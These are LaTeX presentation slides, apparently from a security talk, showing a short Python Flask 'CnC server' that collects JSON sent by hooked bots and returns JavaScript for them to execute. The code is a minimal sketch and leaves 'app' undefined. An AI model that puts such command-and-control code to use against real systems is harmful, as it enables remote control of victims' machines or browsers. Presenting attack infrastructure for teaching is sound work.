\documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
  \frametitle{We have them hooked!}
  \begin{center}
    \includegraphics[scale=0.3]{hooked}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Python CnC Server}
  \begin{center}
    \begin{tcolorbox}[title=server.py,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        #!/usr/bin/env python
        
        import sys
        import json
        from flask import Flask
        from flask import request

        @app.route("/", methods=["POST"])
        def cnc_listener():
            try:
                data = request.json
                print(json.dumps(data, indent=4))
                if 'bot' in data:
                    return "console.log('1337 botnet dude')"
                return json.dumps(
                    data,
                    indent=4
                ), 200, {'Content-Type': 'application/json'}
            except Exception as e:
                return json.dumps(
                    {
                      'error': 'invalid request'
                    },
                    indent=4
                ), 500, {'Content-Type': 'application/json'}
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
